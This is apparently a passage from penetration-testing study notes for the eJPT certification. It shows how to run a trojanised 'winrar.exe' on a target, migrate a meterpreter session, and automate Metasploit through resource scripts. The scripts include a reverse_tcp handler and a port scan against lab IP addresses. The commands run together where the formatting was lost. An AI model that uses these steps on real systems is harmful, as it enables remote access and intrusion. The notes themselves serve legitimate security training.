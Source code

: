 <figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-27de7cdb23d59739b4d177f1a32ddc74780573ed%2Fimage-20230415220833685.png?alt=media" alt=""><figcaption></figcaption></figure>

* Transfer and run the `winrar.exe` file to the target O.S.
* File description is kept, but not its functionality.

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-c416cf444412c992defadf09a24f6adeb9401aac%2Fimage-20230415221016113.png?alt=media" alt=""><figcaption></figcaption></figure>

* Proceed with the Post Exploitation module to migrate the process into another one, in the `meterpreter` session

run post/windows/manage/migrate

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ca9eef2a7b72ca09defdcf07d701d4dc667061cc%2Fimage-20230415221432202.png?alt=media" alt=""><figcaption></figcaption></figure>

## Automation with [Resource Scripts](https://www.offsec.com/metasploit-unleashed/writing-meterpreter-scripts/)​ <a href="#automation-with-resource-scripts" id="automation-with-resource-scripts"></a>

Repetitive tasks and commands can be automated using **MSF resource scripts** (same as batch scripts).

* Almost every MSF command can be automated.

ls -al /usr/share/metasploit-framework/scripts/resource/usr/share/metasploit-framework/scripts/resource**`e.g. 1`**

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-95ab3be68e60afb06d3824d9869156fdfb649c9f%2Fimage-20230415222643575.png?alt=media" alt=""><figcaption></figcaption></figure>

* _Automate the process of setting up a handler for the generated payloads_, by creating a new `handler.rc` file

nano handler.rc​# Insert the following lines# by specifying the commands sequentially​use multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run​# Save it and exit

* Load and run the recourse script in `msfconsole`

msfconsole -q -r handler.rcmsfconsole -q -r handler.rc**`e.g. 2`**nano portscan.rc​# Insert the following lines# by specifying the commands sequentially​use auxiliary/scanner/portscan/tcpset RHOSTS 192.168.31.131run​# Save it and exitmsfconsole -q -r portscan.rcmsfconsole -q -r portscan.rc**`e.g. 3`**nano db\_status.rc​db\_statusworkspaceworkspace -a TESTmsfconsole -q -r db\_status.rc

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-30a5d2563c243b3bef81b0835eaaf7aed1fdc488%2Fimage-20230415224235665.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9652fb3f7d34700f46ff906b184ad1c2111707ce%2Fimage-20230415223936432.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-dbf1e139c5e8f0aa6fbddec7ff86e88719e8dd05%2Fimage-20230415223258567.png?alt=media" alt=""><figcaption></figcaption></figure>

* 📌 Load up a resource script from within the `msfconsole` with the **`resource`** command

resource /home/kali/certs/ejpt/resource\_scripts/handler.rc

* Typed in commands in a new `msfconsole` session, can be exported in a new resource script
